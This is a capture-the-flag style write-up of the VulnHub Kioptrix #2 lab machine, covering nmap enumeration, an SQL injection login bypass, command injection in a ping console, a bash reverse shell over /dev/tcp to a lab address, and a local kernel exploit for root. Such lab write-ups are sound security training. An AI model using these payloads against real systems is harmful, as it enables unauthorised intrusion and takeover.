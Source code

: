 ```yaml
---
title: "VulnHub - Kioptrix #2"
author: Nasrallah
description: ""
date: 2022-12-27 00:00:00 +0000
categories: [VulnHub]
tags: [vulnhub, linux, easy, commandinjection, sqli]
img_path: /assets/img/vulnhub/kioptrix2
---
```



---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Kioptrix level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) from [VulnHub](https://www.vulnhub.com/).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 192.168.56.9                                              
Host is up (0.00018s latency).    
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION 
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey:                                                                 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind    2 (RPC #100000)                                                                                                                     
| rpcinfo:                                                                     
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind     
|   100000  2            111/udp   rpcbind
|   100024  1            924/udp   status
|_  100024  1            927/tcp   status
443/tcp  open  ssl/https?
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2022-12-13T22:33:08+00:00; +4h59m59s from scanner time.
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
927/tcp  open  status     1 (RPC #100024)
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:82:C2:D8 (Oracle VirtualBox virtual NIC)
```

We found a couple of open ports running multiple services on Linux CentOS. We see OpenSSH running on port 22, Apache on port 80 and mysql on port 3306.

### Web

Let's check the webpage on port 80.

![](1.png)

It's a login page.

I tried some default credentials but couldn't login but managed to do so using sql injection.`' or 1=1 --`

![](2.png)

We see a web console giving us the ability to ping machines on the network. I instantly tried to inject command and succeeded with the command `;id`.

![](3.png)

## **Foothold**

Now it's time to get a reverse shell, first we setup a netcat listener with `nc -lvnp 1234` and then submit the following command in the web console.

```bash
;sh -i >& /dev/tcp/192.168.56.1/1234 0>&1
```

![](4.png)

After that i upgraded the shell using python pty.

![](5.png)

## **Privilege Escalation**

We saw earlier from the nmap scan that the linux flavor of the machine is `CentOS`, let's check it's version with `lsb_release -a`.

```bash
bash-3.00$ lsb_release -a
LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final

```

Let's check if this version has any exploits

![](6.png)

We found multiple privilege escalation exploits but the one that's gonna work is `linux/local/9545.c` so we copy it to our current folder using the command `searchsploit -m linux/local/9545.c`

After that we need to upload it to target, we do that using `python3 -m http.server` to serve the file and `wget` to download it from the target.

![](7.png)

Now we need to compile using this command `gcc 9545.c -o exploit` and then run it.

![](8.png)

Great! The exploit worked and we got a root shell.



---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
